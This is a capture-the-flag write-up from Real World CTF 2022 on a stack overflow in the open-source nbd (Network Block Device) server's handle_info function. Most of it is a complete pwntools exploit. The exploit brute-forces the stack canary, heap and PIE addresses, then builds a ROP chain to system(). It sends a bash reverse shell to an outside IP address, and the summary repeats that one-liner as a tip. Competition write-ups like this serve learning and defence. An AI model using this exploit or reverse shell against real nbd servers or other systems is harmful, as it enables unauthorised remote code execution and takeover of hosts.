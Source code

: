 ```yaml
---
title: Who Moved My Block-Real World Stack Overflow
date: 2022-01-23 16:22:21
tags: 
---
```

Who Moved My Block, rwctf 2022
<!--more-->

# Prelude

Real world CTF is my first CTF in 2022, I had a great time with my teammates@r3kapig! Especially thanks to @2019 @crazyman, we solved the challenge together!

This challenge is my first real-world challenge. Someone calls it “clone and pwn” challenge, which means we should clone the latest version of the project and pwn it with 0day vulnerability.

Also, nbd is a small project and we could finish the code review part quickly.

# Set-up
Challenge Attachment: `https://github.com/n132/attachment/blob/main/RWCTF_2022/WhoMovedMyBlock_471d96239f86cb3f7c61991b44d74623.zip`

Project Link: [https://github.com/NetworkBlockDevice/nbd](https://github.com/NetworkBlockDevice/nbd)

Commit: 5750003711b8050bad3ddaf5196201ef419ce15d

Make:

```bash
./configure --enable-debug && \\
make && \\
make install
```

# Solution

The solution is similar to **CVE-2018-1160, Metatalk in Hitcon 2021.**

1. Read the source code and find the vulnerability.
2. I find two vulnerabilities one `Heap-Overflow` and one `Stack-Overflow`in function `handle-info` 
3. The `heap-overflow` is hard to use, cuz we need to construct the heap Fengshui carefully.
4. While the `Stack-Overflow` one is easy to use, we could get the addresses of pie/heap/canary by judging the statement of connection (crash or hang).
5. ROP to get a reversed shell

# Exp

```python
from code import interact
from distutils.dir_util import copy_tree
from re import sub
from pwn import *
import subprocess
#context.log_level = 'debug'
context.arch='amd64'
DEBUG = 0
if(DEBUG):
    ip = "0.0.0.0"
    port = 6666
else:
    ip = "47.242.113.232"
    port =49265
p = None
ru = lambda x: p.recvuntil(x)
rl = lambda  : p.recvline()
ra = lambda  : p.recvall()
rv = lambda x: p.recv(x)
sn = lambda x: p.send(x)
sl = lambda x: p.sendline(x) 
sa = lambda x,y: p.sendafter(x,y) 
def pow():
    ru('sha256("')
    tmp = ru('"')[:-1].decode()
    c1 = "gcc ./pow.c -lcrypto -o ppp".split(' ')
    c2 = f"./ppp {tmp}".split(' ')
    c3 = "rm ./ppp".split(' ')
    subp = subprocess.Popen(c1)
    subp.wait()
    print(c2)
    subp = subprocess.Popen(c2)
    res,_ = subp.communicate()
    subp = subprocess.Popen(c3)
    subp.wait()
    print(res,_)
def anum(n):
    sn(p32(n,endian='big'))
def NBD_OPT_EXPORT_NAME(payload):
    anum(1)
    anum(len(payload))
    sn(payload)
def NBD_OPT_LIST():#baned
    sn(p64(0x54504f4556414849))
    anum(3)
    anum(1)    
def NBD_OPT_STARTTLS(size,c):#Set stack
    anum(5)
    anum(size)
    sn(c)
def NBD_OPT_INFO(buf):
    anum(7)
    anum(len(buf)+4)
    anum(len(buf)+4)
    sn(buf)
    p.read()
    pad = b" "*0x10+b'''sleep 3;bash -c 'exec bash -i &>/dev/tcp/49.234.220.122/20191 <&1';'''*0x6
    sn(pad.ljust(len(buf)+4,b'\0'))
    sn(p16(0,endian='big'))
    p.readuntil("nown")
def single_req(base,guess):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    NBD_OPT_INFO(base+guess)
    p.read(timeout=1)
def req(base,length):
    res = b""
    global p
    for x in range(length):
        flag=0
        for _ in range(0x100):
            log.success(f"Trying Pos:{x}:{hex(_)}")
            try:
            #if(1):
                guess = _.to_bytes(1,'little')
                single_req(base+res,guess)
                res+=guess
                flag=1
                break
            except:
                p.close()
                continue
        if(not flag):
            return 0
        log.warning(hex(u64(res.ljust(8,b'\0'))))
    res = u64(res.ljust(8,b'\0'))
    log.warning(hex(res))
    input()
    return res
def canary():
    base=b"A"*(0x408)+b'\0'
    length=7
    return req(base,length)
def leak_heap():
    global p

    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    length = 6
    return req(base,length)
def leak_pie():
    global p
    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    base+= p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+b"\xea"
    length= 5
    return req(base,length)
def exploit(c):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    pay = b"A"*(0x408)+p64(canary_val)+b"\0"*0x18
    pay += p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+c
    NBD_OPT_INFO(pay)
    p.interactive()
if __name__ == "__main__":
    canary_val = canary()
    heap  = leak_heap()
    pie = leak_pie()-0x96ea

    ret = 0x000000000000301a+pie 
    rdi = 0x0000000000004a58+pie
    system = 0x3bb0+pie

    
    r = flat([
        ret,rdi,heap+0x100*2,system
    ])
    exploit(r)
```

# Summary

It’s an interesting challenge and it’s really “real”. That’s what we would meet in the real life. We may learn lots of heap vulnerability exploiting skills in CTF but in daily work, exploiting through Stack Overflow is a more common situation!

I learned some useful skills from my teammates during the contest:

- Use `sleep xxx;` to judge if the remote server is running our command.
- `system` in `C` behave differently from the shell. `bash -c 'exec bash -i &>/dev/tcp/<ip address>/<port> <&1';` could work well. Before attacking remotely, we could test the command locally first.